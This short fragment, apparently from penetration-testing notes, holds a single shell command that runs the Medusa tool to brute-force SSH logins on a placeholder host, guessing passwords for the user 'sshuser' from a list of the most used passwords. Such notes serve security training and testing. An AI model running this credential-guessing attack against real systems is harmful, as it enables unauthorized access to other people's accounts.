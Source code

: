 ```shell-session
medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
